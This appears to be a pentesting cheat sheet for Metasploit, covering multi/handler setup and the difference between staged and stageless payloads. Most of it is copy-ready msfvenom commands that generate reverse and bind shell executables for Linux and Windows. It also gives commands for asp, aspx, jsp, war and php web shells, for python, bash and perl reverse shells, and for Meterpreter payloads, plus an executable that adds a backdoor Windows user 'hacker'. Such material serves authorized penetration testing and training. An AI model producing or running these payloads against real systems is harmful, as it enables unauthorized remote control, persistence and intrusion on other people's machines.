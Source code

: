# Metasploit Handler:

LHOST=local host

LPORT=local port

RHOST=remote host

RPORT=remote port

```
msfconsole -q
show options
show payloads
use exploit/multi/handler
set PAYLOAD <Payload name>
show options
Set RHOST <Remote IP>
set LHOST <Local IP>
set LPORT <Local Port>
Run
```

## List payloads:
```
msfvenom -l
```

## search for cmd/unix payloads
```
msfvenom -l payloads | grep "cmd/unix" | awk '{print $1}'
```

## look at payload options:
```
msfvenom --payload-options -p windows/shell/reverse_tcp
```

## Staged payloads: 
Staged payloads are denoted with the use of a forward slash (/; e.g. windows/shell/reverse_tcp). Staged payloads send a small stager to the target, which connects back to the attacker and downloads the rest of the payload. Therefore, staged payloads need special payload listeners, such as multi/handler in Metasploit. Staged payloads are ideal in situations where you have limited shellcode space, most commonly in Buffer Overflows.

## Stageless payloads:
Stageless payloads are denoted with the use of an underscore (_; e.g. windows/shell_reverse_tcp). Stageless payloads send the entire payload to the target at once, and therefore don’t require the attacker to provide more data. That means we have a variety of listeners we can use, such as Netcat.

# Non-Meterpreter Binaries
## Stageless Payloads for Linux:
```
x86 	msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
x64 	msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

## Stageless Payloads for Windows:
```
x86 	msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
x64 	msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

## Staged Payloads for Linux:
```
x86	msfvenom -p linux/x86/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
x64 	msfvenom -p linux/x64/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

## Staged Payloads for Windows:
```
x86	msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
x64	msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

## Web Payloads:
```
asp	msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp
asp	msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp
aspx	msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f aspx > shell.aspx
aspx	msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f aspx > shell.aspx
jsp	msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp
war	msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
php	msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php
```

## Scripting Payloads:
```
Python	msfvenom -p cmd/unix/reverse_python LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.py
Bash	msfvenom -p cmd/unix/reverse_bash LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.sh
Perl	msfvenom -p cmd/unix/reverse_perl LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.pl
```

## Binaries Payloads:
```
Linux Bind Shell	msfvenom -p generic/shell_bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f elf > term.elf
Windows Reverse Shell	msfvenom -p windows/shell/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f exe > shell.exe
```

## Create User
```
msfvenom -p windows/adduser USER=hacker PASS=Hacker123$ -f exe > adduser.exe
```


# Meterpreter Binaries
## Staged Payloads for Windows:
```
x86	msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
x64	msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

## Stageless Payloads for Windows:
```
x86	msfvenom -p windows/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
x64	msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

## Staged Payloads for Linux:
```
x86	msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
x64	msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

## Stageless Payloads for Linux:
```
x86	msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
x64	msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

## Meterpreter Web Payloads:
```
asp	msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp
jsp	msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > example.jsp
war	msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > example.war
php	msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php
```
